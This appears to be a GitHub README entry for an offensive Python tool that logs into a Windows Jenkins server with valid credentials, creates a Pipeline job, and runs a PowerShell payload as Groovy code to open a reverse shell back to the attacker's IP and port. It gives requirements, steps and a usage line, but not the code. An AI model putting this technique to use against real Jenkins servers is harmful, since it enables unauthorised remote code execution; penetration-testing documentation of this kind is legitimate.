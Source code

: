 ## win_revshell_groovy.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
And Jenkins must have the "[workflow-cps](https://plugins.jenkins.io/workflow-cps/)" or "Pipeline: Groovy" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Pipeline"** JOB.

![win_revshell_groovy_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_1.png)

Then configures it or BUILD a **"Pipeline script"** with the **Powershell** payload as **Groovy** code.
![win_revshell_groovy_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_groovy.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_groovy_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_3.png)
![win_revshell_groovy_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_4.png)

Tested on Jenkins 2.150.2 on Windows 10 Pro 22H2 b.19045
